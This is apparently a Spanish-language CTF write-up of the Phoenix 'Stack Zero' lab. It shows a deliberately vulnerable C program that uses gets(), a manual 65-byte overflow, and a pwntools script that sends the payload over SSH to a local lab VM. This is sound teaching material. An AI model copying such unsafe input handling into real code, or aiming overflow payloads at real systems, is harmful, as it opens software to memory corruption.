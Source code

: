 ```yaml
---
layout: single
title: "Stack Zero"
permalink: /pwn/phoenix/stack-zero/
parent: Phoenix
comments: true
excerpt: "Stack Zero"
classes: wide
header:
  teaser: /assets/images/2025-08-17-Phoenix/logo.jpg
categories: [PWN]
tags: [PWN, Linux, Hacking, Easy]
---
```


![Untitled](/assets/images/2025-08-17-Phoenix/banner.png)

Este primer nivel introduce el concepto de **desbordamiento de buffer en la pila**. Aquí se muestra cómo es posible acceder a memoria fuera de la región asignada, comprendiendo la disposición de las variables en el stack y cómo una sobrescritura puede alterar el flujo del programa.

El programa define una estructura que contiene un buffer de 64 bytes seguido de una variable changeme. El uso de gets() hace posible escribir más datos de los esperados, sobrescribiendo memoria contigua.


```c
/*
 * phoenix/stack-zero, by https://exploit.education
 *
 * The aim is to change the contents of the changeme variable.
 *
 * Scientists have recently discovered a previously unknown species of
 * kangaroos, approximately in the middle of Western Australia. These
 * kangaroos are remarkable, as their insanely powerful hind legs give them
 * the ability to jump higher than a one story house (which is approximately
 * 15 feet, or 4.5 metres), simply because houses can't can't jump.
 */

#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

char *gets(char *);

int main(int argc, char **argv) {
  struct {
    char buffer[64];
    volatile int changeme;
  } locals;

  printf("%s\n", BANNER);

  locals.changeme = 0;
  gets(locals.buffer);

  if (locals.changeme != 0) {
    puts("Well done, the 'changeme' variable has been changed!");
  } else {
    puts(
        "Uh oh, 'changeme' has not yet been changed. Would you like to try "
        "again?");
  }

  exit(0);
}
```

**Ejecución manual**

Primero probamos con un solo carácter:

```c
user@phoenix-amd64:/opt/phoenix/amd64$ ./stack-zero 
Welcome to phoenix/stack-zero, brought to you by https://exploit.education
A
Uh oh, 'changeme' has not yet been changed. Would you like to try again?
```

Dado que el buffer tiene 64 bytes, si enviamos 65 caracteres lograremos sobrescribir la variable changeme:

```c
user@phoenix-amd64:/opt/phoenix/amd64$ python -c 'print "A"*65'
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

```

Enviamos este valor y vemos que realizamos el desbordamiento del buffer 

```c
user@phoenix-amd64:/opt/phoenix/amd64$ ./stack-zero 
Welcome to phoenix/stack-zero, brought to you by https://exploit.education
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
Well done, the 'changeme' variable has been changed!
```

**Explotación con Pwntools**

Para automatizar el proceso creamos un script en Python con pwntools:

```c
┌──(root㉿angussMoody)-[/mnt/angussMoody/PWN/Phoenix/0_stack-zero]
└─# cat Remote_exploit.py 
───────┬─────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: Remote_exploit.py
───────┼─────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ #!/usr/bin/env python3
   2   │ from pwn import *
   3   │ 
   4   │ #Define Las Varibles
   5   │ payload = b'A' * 65
   6   │ 
   7   │ # Se conecta al servidor por SSH
   8   │ ssh_connection = ssh(user='user', host='localhost', password='user', port=2222)
   9   │ 
  10   │ # Ejecuta el programa remoto
  11   │ process = ssh_connection.process(['/opt/phoenix/amd64/stack-zero'])
  12   │ 
  13   │ # Envía el payload 
  14   │ process.sendline(payload)
  15   │ 
  16   │ # captura la respuesta y la envía
  17   │ flag = process.recvall().decode()
  18   │ log.success("Output: " + flag)
  19   │ 
  20   │ # Cierra el proceso
  21   │ process.close()
  22   │ 
───────┴─────────────────────────────────────────────────────────────────────────────────────────────────
```

**Resultado final**

Se evidencia el mensaje que indica que el reto fue resuelto

```c
┌──(root㉿angussMoody)-[/mnt/angussMoody/PWN/Phoenix/0_stack-zero]
└─# python3 Remote_exploit.py 
[+] Connecting to localhost on port 2222: Done
[*] user@localhost:
    Distro    Unknown 
    OS:       linux
    Arch:     amd64
    Version:  4.9.0
    ASLR:     Disabled
    SHSTK:    Disabled
    IBT:      Disabled
    Note:     Susceptible to ASLR ulimit trick (CVE-2016-3672)
[+] Starting remote process None on localhost: pid 526
[!] ASLR is disabled for '/opt/phoenix/amd64/stack-zero'!
[+] Receiving all data: Done (128B)
[*] Stopped remote process 'stack-zero' on localhost (pid 526)
[+] Output: Welcome to phoenix/stack-zero, brought to you by https://exploit.education
    Well done, the 'changeme' variable has been changed!
```

**Conclusión**

Este reto muestra cómo un buffer overflow simple permite sobrescribir variables locales en la pila. Aunque no se logra ejecución de código arbitrario, es la base para comprender vulnerabilidades más complejas que se verán en los siguientes niveles de la serie Stack.